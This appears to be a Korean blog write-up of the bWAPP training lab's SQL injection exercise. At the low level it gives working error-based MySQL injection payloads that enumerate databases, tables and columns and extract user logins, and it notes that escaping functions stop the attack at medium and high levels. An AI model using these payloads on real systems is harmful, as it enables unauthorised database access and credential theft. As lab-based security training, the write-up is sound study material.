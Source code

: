 ```yaml
---
layout: single
title: (bWAPP)SQL Injection GET/Select
categories: Web-vuln
tag: [sql injection, sql, injection, bwapp, bee box, GET, OWASP TOP 10, OWASP]
toc: true
author_profile: false
---
```

# 검증 로직
> Low Level 에서는 보안 대책이 적용되어 있지 않다.

## Level - Low
![그림 1-1](/assets/image/bwapp/injection/sqli-select-archive/sqli-select/image1.png)
- Select 기능이 존재하고 영화 제목을 질의할 수 있다. 또한 해당 질의의 응답으로 게시판 형식이 출력된다.
- 출력되는 레코드는 하나의 열만 출력하는 듯 하다.
- GET 형식으로 데이터가 전송된다.

```
bWAPP/sqli_2.php?movie=4&action=go
```

- GET 형식으로 날라갈 때 파라미터를 보게되면 movie 파라미터에 int 형식으로 전송된다.

![그림 1-2](/assets/image/bwapp/injection/sqli-select-archive/sqli-select/image2.png)

```
bWAPP/sqli_2.php?movie=1 and 1=1-- &action=go
```

- '(싱글쿼터) 입력시 DBMS Error 가 발생하며, MySQL 사용 유/무 및 Injection 취약 유/무를 확인했다.

> 해당 실습에서는 Error Based가 가능하여 해당 로직의 경우 Error Based 보다 UNION Based 가 시간적으로나 모든 면에서 효율적이나 실습을 위해 Error Based 로 진행하였다.

```sql
(SELECT 1 FROM (SELECT COUNT(*),concat(select schema_name from information_schema.schemata limit 0,1,FLOOR(rand(0)*2))x FROM information_schema.schemata GROUP BY x limit 0,1 )a)--
```

- 해당 구문을 통해 데이터베이스를 순차적으로 하나씩 확인이 가능하다.

```sql
(SELECT 1 FROM (SELECT COUNT(*),concat((select table_name from information_schema.tables where table_schema='bWAPP' limit 0,1),FLOOR(rand(0)*2))x FROM information_schema.tables GROUP BY x limit 0,1 )a)--
```

- 테이블 또한 위 구문을 통해 순차적으로 확인이 가능하다

```sql
(SELECT 1 FROM (SELECT COUNT(*),concat((select column_name from information_schema.columns where table_schema='bWAPP' and table_name='users' limit 0,1),FLOOR(rand(0)*2))x FROM information_schema.columns GROUP BY x limit 0,1 )a)--
```

- 컬럼명 조회를 위한 구문이며, 순차적으로 접근하며 login 컬럼이 발견되어 해당 컬럼에 대한 데이터 추출 시도를 하였다.

```sql
(SELECT 1 FROM (SELECT COUNT(*),concat((select login from bWAPP.users limit 0,1),FLOOR(rand(0)*2))x FROM information_schema.tables GROUP BY x limit 0,1 )a)--
```

![그림 1-3](/assets/image/bwapp/injection/sqli-select-archive/sqli-select/image3.png)
- 성공적으로 데이터를 추출했다.

## Medium & High

```php
function sqli_check_1($data)
{
    return addslashes($data)
}

function sqli_check_2($data)
{
    return mysql_real_escape_string($data);
}
```

1. Medium Level 에서는 addslahes() 함수를 사용하여 ‘(싱글쿼터 )를 입력하게되면 \ 를 앞에 붙여 ‘(싱글쿼터) 사용을 막고 있다. 해당 search 구문인 ‘%%’ 로 이루어져 있어 공격이 성립되지 않는다.
2. High Level 에서는 mysql_real_escape_string() 함수를 사용하여 메타문자를 방지하고 있다.
3. 해당 문제에서 Medium 과 High Level은 공격이 성립되지 않는다.